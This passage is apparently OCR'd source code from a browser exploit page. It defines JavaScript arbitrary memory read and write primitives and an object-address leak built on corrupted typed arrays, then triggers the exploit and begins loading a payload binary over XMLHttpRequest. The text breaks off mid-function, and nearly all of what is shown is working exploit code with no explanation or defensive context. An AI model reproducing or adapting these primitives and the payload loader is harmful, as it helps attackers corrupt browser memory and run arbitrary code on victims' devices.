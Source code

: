                 write4: function (addr, value) {
                    expl_master[4] = addr.low;
                    expl_master[5] = addr.hi;
                    if (value instanceof int64) {
                        expl_slave[0] = value.low;
                    } else {
                        expl_slave[0] = value;
                    }
                },
                write2: function (addr, value) {
                    expl_master[4] = addr.low;
                    expl_master[5] = addr.hi;
                    var tmp = expl_slave[0] & 0xFFFF0000;
                    if (value instanceof int64) {
                        expl_slave[0] = ((value.low & 0xFFFF) | tmp);
                    } else {
                        expl_slave[0] = ((value & 0xFFFF) | tmp);
                    }
                },
                write1: function (addr, value) {
                    expl_master[4] = addr.low;
                    expl_master[5] = addr.hi;
                    var tmp = expl_slave[0] & 0xFFFFFF00;
                    if (value instanceof int64) {
                        expl_slave[0] = ((value.low & 0xFF) | tmp);
                    } else {
                        expl_slave[0] = ((value & 0xFF) | tmp);
                    }
                },
                read8: function (addr) {
                    expl_master[4] = addr.low;
                    expl_master[5] = addr.hi;
                    return new int64(expl_slave[0], expl_slave[1]);
                },
                read4: function (addr) {
                    expl_master[4] = addr.low;
                    expl_master[5] = addr.hi;
                    return expl_slave[0];
                },
                read2: function (addr) {
                    expl_master[4] = addr.low;
                    expl_master[5] = addr.hi;
                    return expl_slave[0] & 0xFFFF;
                },
                read1: function (addr) {
                    expl_master[4] = addr.low;
                    expl_master[5] = addr.hi;
                    return expl_slave[0] & 0xFF;
                },
                leakval: function (obj) {
                    obj_slave.obj = obj;
                    return new int64(obj_master[4], obj_master[5]);
                }
            };
            window.p = prim;
            run_hax();
        }
    </script>
    <!--load payload-->
    <script>
        function loadBIN(){
            var xhr = new XMLHttpRequest();
            xhr.open('GET', PLfile, true);
            xhr.overrideMimeType('text/plain; charset=x-user-defined');